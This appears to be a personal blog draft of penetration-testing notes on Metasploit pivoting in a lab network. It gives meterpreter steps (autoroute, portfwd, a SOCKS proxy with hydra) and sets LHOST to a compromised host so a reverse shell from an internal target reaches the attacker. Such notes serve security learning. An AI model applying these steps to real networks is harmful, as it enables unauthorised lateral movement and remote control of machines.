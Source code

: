 ```yaml
---
title: "MSF Pivot Tips"
date: 2019-03-11T21:33:07Z
draft: true
categories: ['notes']
tags: ['tips','pentest']
---
```


## Network details

Attacker: 192.168.1.2 255.255.255.0 via 192.168.1.1

Easy Target: 192.168.1.3 255.255.255.0 via 192.168.1.1
              192.168.2.5 255.255.255.0 via 192.168.2.1
(No limit on ports for Easy Target. We can do anything with it)

Internal Target: 192.168.2.10 255.255.255.0 via 192.168.2.1
(Only port 80, 445 is allowed in, cannot connect to any ip outside of its class C subnet.)

## Assumptions

We do not know of Internal Target's information.
We will need to set up a way to test for information.

## Goal

We want to gain full control over Internal Target.

## Attack approach

1. Compromise Easy Target and get a meterpreter session, let's call it session 1.
2. Run ipconfig on session 1 to check if it's connected to any other interface.
3. Run arp scanner + arp sweep + tcp scan + udp scan on Easy Target for both `192.168.1.1/24` and `192.168.2.1/24`. This is to ensure that we did not miss out any potential targets that only receive packets from our Easy Target's IP address
4. We should have found our Internal Target 192.168.2.10 with port 80 and 445 open. But we are unable to access it through our attacker machine.

5. Interact with session 1, run autoroute -s 192.168.2.10, background session 1.
5b. We can use /auxiliary/server/socks4a to setup a socks4 proxy and use proxychains with other tools such as hydra out of meterpreter.

6. Now we can send in packets through meterpreter but Internal Target is blocking all egress packets to our subnet. !!!We will think the route failed but that's not the case.

7. From our previous scan through Easy Target, we know port 80, 445 is open on Internal Target. We can set up portfwd in the next step so that we can access the Internal Target using other tools.
8. #meterpreter(session 1)> portfwd add -l <local port> -p <target port> -r <internal target ip>
9. Now we can access internal target port 80 through 127.0.0.1:<local port>

10. After exploring Internal Target we think we find an exploit. We want to get a meterpreter to Internal Host as well. However Internal Host does not allow connection back to our attacker machine.
11. Change payload options. Set LHOST 192.168.1.3 (our easy target). Meterpreter would be smart enough to route the requests back to us.

## Exploited Network

Requests
Attacker -> localhost:port -> Easy Target (portforward request) -> Internal Target

Response
Internal Target -> Easy Target -> Attacker


